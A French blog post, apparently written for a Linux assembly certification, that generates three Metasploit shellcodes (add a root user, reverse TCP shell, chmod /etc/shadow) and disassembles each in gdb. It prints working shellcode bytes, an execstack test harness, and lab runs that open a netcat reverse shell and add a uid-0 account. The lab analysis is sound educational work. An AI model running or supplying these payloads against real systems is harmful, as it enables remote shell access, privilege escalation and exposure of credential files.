

# Assignement 5: Analyse de trois payloads générés par metasploit #

Métasploit propose plusieurs payload présentés ci-dessous :

<a href="../assets/images/6_01.png"></a>


Nous allons procéder à l'analyse des 3 payloads suivants: 
 - linux/x86/adduser,
 - linux/x86/reverse_tcp_shell,
 - linux/x86/chmod

Pour des raisons de contexte, nous ne prenons pas les payloads necessitant meterpreter et donc une connexion établie.

## Premier payload: linux/x86/adduser: ##

Nous générons le code avec la commande :
```c
msfvenom -a x86 --platform linux -p linux/x86/adduser -f c
```
```c
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```

Le shellcode est copié dans un fichier shellcode.c afin de pouvoir procéder à l'analyse. **C'est ce fichier qui sera utilisé lors des 3 analyses.**

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"Pur your shellcode here";

int main()
{

        printf("taille %lu\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}
```

Puis compilé :

```c
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Nous exécutons le programme et observons les modifications :

```c
./shellcode
more /etc/passwd | tail -1
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

Il y a effectivement un utilisateur qui vient d'être ajouté.

### Analyse du code ###

Nous lancons **gdb** et observons le code ci-dessous :

Dans un premier temps, l'id de l'utilisateur effectif est défini à 0 soit root.
```c
    
    ; setreuid syscall (Fixe les ID d'utilisateur effectif et réel du processus appelant)
    ; int setreuid(uid_t ruid, uid_t euid);
    ; setreuid(0,0)

=> 0x08048500 <+0>:	xor    ecx,ecx      ; set ecx to 0
   0x08048502 <+2>:	mov    ebx,ecx      ; ebx and ecx are set to 0
   0x08048504 <+4>:	push   0x46         ; setreuid syscall
   0x08048506 <+6>:	pop    eax			
   0x08048507 <+7>:	int    0x80         ;  setreuid(0,0)           
````

Le fichier /etc/passwd est ouvert en lecture, écriture.

```c
    ; open syscall (open file /etc/passwd)
    ; int open(const char *pathname, int flags);

   0x08048509 <+9>:	push   0x5			    
   0x0804850b <+11>:	pop    eax
   0x0804850c <+12>:	xor    ecx,ecx
   0x0804850e <+14>:	push   ecx
   0x0804850f <+15>:	push   0x64777373	; dwss
   0x08048514 <+20>:	push   0x61702f2f	; ap//
   0x08048519 <+25>:	push   0x6374652f	; cte/
   0x0804851e <+30>:	mov    ebx,esp
                 

    ; the flag is set here
    ; http://www.linux-france.org/article/man-fr/man2/open-2.html
    ; The file fcntl.h tell us the value behind 0x401
    ; O_WRONLY (0x1) O_NOCTTY (0x400)
    ; the file is open for writing
    ; ecx = 0x401
   0x08048520 <+32>:	inc    ecx
   0x08048521 <+33>:	mov    ch,0x4	     
   0x08048523 <+35>:	int    0x80		

    ; We save here the socktfd

   0x08048525 <+37>:	xchg   ebx,eax

````
Nous avons ensuite un saut inconditionnel vers l'offset +83 ce qui correspond au saut de 0x804852b à 0x08048552
car cet espace contient la chaine de caractères "metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀"

```c
    ; jump to code at offset+83 soit 0x08048553
    ; Byte de 0x804852b à 0x08048552 correspond à 
    ; ECX: 0x804852b ("metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀") 

   0x08048526 <+38>:	call   0x8048553 <code+83>

    ; destination du jump
    ; ecx va prendre la valeur de la chaine qui sera stockée dans /etc/passwd
    ; edx = 0x28 soit la taille de la chaine

   0x08048553 <+83>:    pop ecx
   0x08048554 <+84>:    mov edx, DWORD PTR [ecx-0x4]
````

Cela est suivi par un write de la forme ssize_t write(int fd, const void *buf, size_t count);
ebx = file handler
ecx = chaine de caractère
edx = 0x28

puis un exit.
```c
    ; write syscall ssize_t write(int fd, const void *buf, size_t count);

   0x08048555 <+85>:	push   ecx
   0x08048556 <+86>:	cld   
   0x08048557 <+87>:	push   0x4      ; write syscall
   0x08048559 <+89>:	pop    eax
   0x0804855a <+90>:	int    0x80	; write(socktfd, ecx, 0x28)

    ; exit syscall with the value of ebx

   0x0804855c <+92>:	push   0x1
   0x0804855e <+94>:	pop    eax
   0x0804855f <+95>:	int    0x80      ; exit()	
```

## Extras ##

Si nous regardons les options de msfvenom, nous voyons qu'il est possible de passer lors de la création du shellcode des arguments:

```c
msfvenom -p linux/x86/adduser --payload-options
|Options for payload/linux/x86/adduser:
|
|       Name: Linux Add User
|     Module: payload/linux/x86/adduser
|   Platform: Linux
|       Arch: x86
|Needs Admin: Yes
| Total size: 97
|       Rank: Normal
|
|Provided by:
|    skape <mmiller@hick.org>
|    vlad902 <vlad902@gmail.com>
|    spoonm <spoonm@no$email.com>
|
|Basic options:
|Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
```

Par exemple en définissant un nouvel utilisateur :

```c
msfvenom -a x86 --platform=linux -p linux/x86/adduser USER=xophidia PASS=xophidia SHELL=/bin/bash -f c 
````

Nous obtenons :

```c
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x78\x6f"
"\x70\x68\x69\x64\x69\x61\x3a\x41\x7a\x2f\x37\x76\x6e\x47\x46"
"\x32\x4e\x4e\x57\x36\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62"
"\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";


./shellcode
more /etc/passwd | tail -1
xophidia:Az/7vnGF2NNW6:0:0::/:/bin/bash
```

## Second payload: linux/x86/shell_reverse_tcp: ##

La première étape consiste à genérer le shellcode et à regarder son fonctionnement :

```c
msfvenom -p linux/x86/shell_reverse_tcp -a x86 --platform linux -f c
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68"
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
````

Le code est ajouté au fichier shellcode.c tout comme le premier exemple puis compilé.


### Analyse du code ###

Cette première section est chargée d'exécuter l'appel system socketcall puis sys_socket de la forme
int socket(int domain, int type, int protocol);

```c
	
	; Création du socket
	; http://man7.org/linux/man-pages/man2/socketcall.2.html
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	
	; for domain we use AF_INET(0x2)
	; for type SOCK_STREAM(0x1)
	; for protocol IP (0x0)	

	xor ebx, ebx 			; ebx = 0
	mul ebx				; eax=ebx=edx = 0
	push ebx			; push 0 onto the stack
	inc ebx				; ebx = 1
	push ebx			; push 1 onto the stack
	push 0x2			; push 2 onto the stack
	mov ecx, esp			; set ecx to the address of our args
	mov al, 0x66			; syscall socketcall
	int 0x80			; make the syscall socketcall(socket(2,1,0))
```
L'appel systeme dup2 permet de dupliquer les descripteurs de fichiers. 
Cela permet de rediriger les sorties (stdin, stdout et stderr) afin de pouvoir obtenir une visualisation une fois la connexion établie.

```c

        ; we save sockfd into ebx

    804850f:	93                   	xchg   ebx,eax

        ; http://man7.org/linux/man-pages/man2/dup.2.html
        ; int dup2(int oldfd, int newfd);
        ; EAX: 0x1 EBX: 0x3 ECX: 0x2 
    
 
    8048510:	59                   	pop    ecx                 ; ecx is set to 2
    8048511:	b0 3f                	mov    al,0x3f             ; dup2 syscall
    8048513:	cd 80                	int    0x80
    8048515:	49                   	dec    ecx                 ; loop while ecx > 0
    8048516:	79 f9                	jns    8048511 <code+0x11>
```

```c
        ; Execute sys_connect selon le protorype suivant
        ; http://man7.org/linux/man-pages/man2/connect.2.html
        ; int connect(int sockfd, const struct sockaddr *addr, addrlen)
        ; EAX: 0x0 
        ; EBX: 0x3 
        ; ECX: 0xffffcf4c --> 0x5c110002 
        ; EDX: 0x0 
	 
    8048518:	68 0a 00 02 0f       	push   0xf02000a    ; @ip 10.0.2.15
    804851d:	68 02 00 11 5c       	push   0x5c110002   ; port 4444(0x115c)
    8048522:	89 e1                	mov    ecx,esp
    8048524:	b0 66                	mov    al,0x66      ; set eax to 0x66
    8048526:	50                   	push   eax	        ; push onto the stack eax, ecx and ebx
    8048527:	51                   	push   ecx	        ; ecx pointed to *addr
    8048528:	53                   	push   ebx	       
    8048529:	b3 03                	mov    bl,0x3 	    
    804852b:	89 e1                	mov    ecx,esp
    804852d:	cd 80                	int    0x80         ; connect(socktfd, [2,4444,10.0.2.15], eax)
```

```c
	    ; execve syscall
	    ; int execve(const char *filename, char *const argv[], char *const envp[]);
	    ; execute /bin/sh

    804852f:	52                   	push   edx	        ; null byte
    8048530:	68 6e 2f 73 68       	push   0x68732f6e   ; "//bin/sh"
    8048535:	68 2f 2f 62 69       	push   0x69622f2f
    804853a:	89 e3                	mov    ebx,esp      ; ebx is *filename
    804853c:	52                   	push   edx          ; argv is set to 0
    804853d:	53                   	push   ebx          ; envp is set to 0
    804853e:	89 e1                	mov    ecx,esp      
    8048540:	b0 0b                	mov    al,0xb	    ; syscall execve("/bin/sh',null,null)
 8048542:	cd 80                	int    0x80
````

### Testons le tout :###

Sur le premier terminal, nous lancons la communication et après connexion, nous accédons à un shell.

```c
nc -l -p 4444 -v
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [10.0.2.15] port 4444 [tcp/*] accepted (family 2, sport 37928)
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
pwd
/home/xophidia/Documents
```

Landement du shellcode :
```c
./test_shellcode 
```

## Troisième payload, : linux/x86/chmod##

Nous procédons pour le troisième payload de la même manière que les deux précedents.

La première étape consiste à genérer le shellcode et à regarder son fonctionnement :

Par défaut il modifiera le fichier /etc/passwd ave cles droits 0666

```c
xophidia@xophidia-VirtualBox:~/Documents/Shellcode/as5$ msfvenom -p linux/x86/chmod --payload-options
Options for payload/linux/x86/chmod:


       Name: Linux Chmod
     Module: payload/linux/x86/chmod
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode


msfvenom -p linux/x86/chmod -a x86 -f c

No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 177 bytes

unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";
```

Mais il est possible de modifer en static le nom du fichier.

```c
msfvenom -p linux/x86/chmod FILE=rapport -f c

No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 32 bytes
Final size of c file: 161 bytes
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x08\x00\x00\x00\x72\x61\x70\x70\x6f"
"\x72\x74\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58"
"\xcd\x80";


Avec "x72\x61\x70\x70\x6f\x72\x74\x00" qui correspond à rapport.
```

Comme les exemples précédents, nous compilons le programme puis le testons via gdb.

```c
=> 0x0804a040 <+0>:	cdq    
   0x0804a041 <+1>:	push   0xf       ; push 0xf into the stack
   0x0804a043 <+3>:	pop    eax       ; eax = 15 int sys_chmod(const char* filename, mode_t mode)
   0x0804a044 <+4>:	push   edx       ; edx = 0 (cdq extends the sign bit of eax into edx)
   0x0804a045 <+5>:	call   0x804a056 <code+22>


	; Correspond à la chaine /etc/shadow 
	; \x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x00
   0x0804a04a <+10>:	das    
   0x0804a04b <+11>:	gs je  0x804a0b1
   0x0804a04e <+14>:	das    
   0x0804a04f <+15>:	jae    0x804a0b9
   0x0804a051 <+17>:	popa   
   0x0804a052 <+18>:	outs   dx,DWORD PTR fs:[esi]
   0x0804a054 <+20>:	ja     0x804a056 <code+22>


   0x0804a056 <+22>:	pop    ebx      ; name of the file we wants to modify
   0x0804a057 <+23>:	push   0x1b6	; mode 666 in octal
   0x0804a05c <+28>:	pop    ecx	
   0x0804a05d <+29>:	int    0x80     ; execute the chmod("/etc/passwd",0666)
					
   0x0804a05f <+31>:	push   0x1
   0x0804a061 <+33>:	pop    eax
   0x0804a062 <+34>:   	int    0x80     ; exit syscall

Au moment d'ajouter les droits du fichier dans ecx, nous observons ebx et le nom du fichier à modifier.

[----------------------------------registers-----------------------------------]
EAX: 0xf 
EBX: 0x804a04a ("/etc/shadow")
ECX: 0x7ffffff7 
EDX: 0x0 
ESI: 0xb7fba000 --> 0x1b1db0 
EDI: 0xb7fba000 --> 0x1b1db0 
EBP: 0xbffff148 --> 0x0 
ESP: 0xbffff128 --> 0x0 
EIP: 0x804a057 --> 0x1b668
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804a052 <code+18>:	outs   dx,DWORD PTR fs:[esi]
   0x804a054 <code+20>:	ja     0x804a056 <code+22>
   0x804a056 <code+22>:	pop    ebx
=> 0x804a057 <code+23>:	push   0x1b6
   0x804a05c <code+28>:	pop    ecx
   0x804a05d <code+29>:	int    0x80
   0x804a05f <code+31>:	push   0x1
   0x804a061 <code+33>:	pop    eax

```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-3763